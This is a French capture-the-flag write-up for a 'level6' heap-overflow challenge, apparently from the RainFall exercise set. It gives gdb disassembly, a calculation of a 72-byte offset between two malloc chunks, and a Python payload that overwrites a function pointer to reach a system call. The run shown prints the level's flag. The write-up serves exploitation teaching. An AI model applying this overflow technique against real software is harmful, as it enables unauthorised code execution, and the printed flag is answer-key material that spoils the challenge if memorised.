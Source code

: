 # level6: HEAP OVERFLOW

### Target

Nous avons une fonction **n** qui fait un call system d'un sh parfait pour notre exploitation
```s
08048454 <n>:
 8048454:	55                   	push   %ebp
 8048455:	89 e5                	mov    %esp,%ebp
 8048457:	83 ec 18             	sub    $0x18,%esp
 804845a:	c7 04 24 b0 85 04 08 	movl   $0x80485b0,(%esp)
 8048461:	e8 0a ff ff ff       	call   8048370 <system@plt>
 8048466:	c9                   	leave  
 8048467:	c3                   	ret    
```

### offset

Pour calculez l'offset pour overflow la heap nous devons soustraire chaque adresse stocker dans eax apres chaque call de malloc et les soustraires ensembles.

```s
(gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:	push   %ebp
   0x0804847d <+1>:	mov    %esp,%ebp
   0x0804847f <+3>:	and    $0xfffffff0,%esp
   0x08048482 <+6>:	sub    $0x20,%esp
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   0x080484a5 <+41>:	mov    $0x8048468,%edx
   0x080484aa <+46>:	mov    0x18(%esp),%eax
   0x080484ae <+50>:	mov    %edx,(%eax)
   0x080484b0 <+52>:	mov    0xc(%ebp),%eax
   0x080484b3 <+55>:	add    $0x4,%eax
   0x080484b6 <+58>:	mov    (%eax),%eax
   0x080484b8 <+60>:	mov    %eax,%edx
   0x080484ba <+62>:	mov    0x1c(%esp),%eax
   0x080484be <+66>:	mov    %edx,0x4(%esp)
   0x080484c2 <+70>:	mov    %eax,(%esp)
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:	mov    0x18(%esp),%eax
   0x080484ce <+82>:	mov    (%eax),%eax
   0x080484d0 <+84>:	call   *%eax
   0x080484d2 <+86>:	leave  
   0x080484d3 <+87>:	ret    
End of assembler dump.
(gdb) b *main+21
Breakpoint 1 at 0x8048491
(gdb) b *main+37
Breakpoint 2 at 0x80484a1
(gdb) b *main+86
Breakpoint 3 at 0x80484d2
(gdb) r AAAA
Starting program: /home/user/level6/level6 AAAA

Breakpoint 1, 0x08048491 in main ()
(gdb) p/x 0x08048491
$1 = 0x8048491
(gdb) p/x $eax
$2 = 0x804a008
(gdb) next
Single stepping until exit from function main,
which has no line number information.

Breakpoint 2, 0x080484a1 in main ()
(gdb) p/x $eax
$3 = 0x804a050
(gdb) 0x804a008 - 0x804a050
Undefined command: "0x804a008".  Try "help".
(gdb) p 0x804a008 - 0x804a050
$4 = -72
(gdb) quit
```
> _Notre offset est de 72 octets_.

### payload

```bash
$(python -c 'print "A"*(72) + "\x54\x84\x04\x08"')
```

### testing

```bash
level6@RainFall:~$ ./level6  $(python -c 'print "A"*(72) + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

TADA ! 

Bonne chance et have fun :)

